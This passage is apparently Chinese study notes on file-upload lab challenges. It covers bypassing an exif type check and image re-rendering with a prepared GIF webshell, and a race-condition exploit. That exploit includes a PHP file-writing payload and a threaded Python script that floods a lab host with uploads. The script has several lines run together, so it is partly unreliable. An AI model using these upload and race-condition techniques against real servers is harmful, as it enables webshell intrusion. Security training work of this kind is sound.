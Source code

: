 ```
    $image_type = exif_imagetype($filename);  
    switch ($image_type) {  //使用exif判断文件的类型  从图像信息当中读取exif头的信息
        case IMAGETYPE_GIF:
            return "gif";
            break;
        case IMAGETYPE_JPEG:
            return "jpg";
            break;
        case IMAGETYPE_PNG:
            return "png";
            break;    
        default:
            return false;
            break;
    }
```  
同样的一句话木马  
**c16**
还是一样的一句话木马  
有一个重新渲染的方法，上传倒是能够上传成功，但是上传成功之后数据却不能得到实现了  
绕过的方法 通过使用二次对比的方式看看经过二次渲染当中没有变化的部分，往其中填入数据  
使用的方法 找到一个可以绕过二次渲染的gif，使用这个gif进行上传文件（gif的本质其实也是从二次渲染之后的图像进行对比完成得到的）  
gif地址  https://www.secgeek.net/POC/POC.gif
链接  https://secgeek.net/bookfresh-vulnerability/
**c17**  
条件竞争漏洞  
```
条件竞争的利用代码
<?php fputs(fopen("info.php", "w"), "<?php phpinfo(); ?>"); ?>
```
链接  
https://seaii-blog.com/index.php/2017/04/26/49.html  
当我们上传shell的时候，会被删除，那么在识别到被删除之前访问该shell，shell的目的是往服务器当中写进去真正的shell   
```
python 利用脚本  
#!/usr/bin/env python# coding:utf-8
import requestsimport hackhttp
from multiprocessing.dummy
import Pool as ThreadPool
def upload(lists):   
    hh = hackhttp.hackhttp()  
    h = hackhttp.hackhttp()    
    raw = """POST /Pass-17/index.php HTTP/1.1Host: 192.168.1.131User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 
Firefox/49.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateReferer: http://192.168.1.131/Pass-17/index.phpCookie: pass=17Connection: closeUpgrade-Insecure-Requests: 1Content-Type: multipart/form-data; 
boundary=---------------------------6696274297634Content-Length: 341-----------------------------6696274297634Content-Disposition: form-data; name="upload_file"; filename="17.php"Content-Type: application/octet-stream<?php file_put_contents("info.php","<?php phpinfo();?>");?>-----------------------------6696274297634Content-Disposition: form-data; name="submit"上传-----------------------------6696274297634--""" 


code, head, html, redirect, log =   hh.http('http://192.168.1.131/Pass-17/index.php', raw=raw)  
print(str(code) + "\r")   
code, head, html, redirect, log =h.http('http://192.168.1.131/upload/17.php')   
print(str(code)+ "\r")
pool = ThreadPool(10)pool.map(upload, range(10000))
pool.close()
pool.join()
```  
条件竞争的利用脚本使用hackhttp进行发包，然后使用线程进行访问  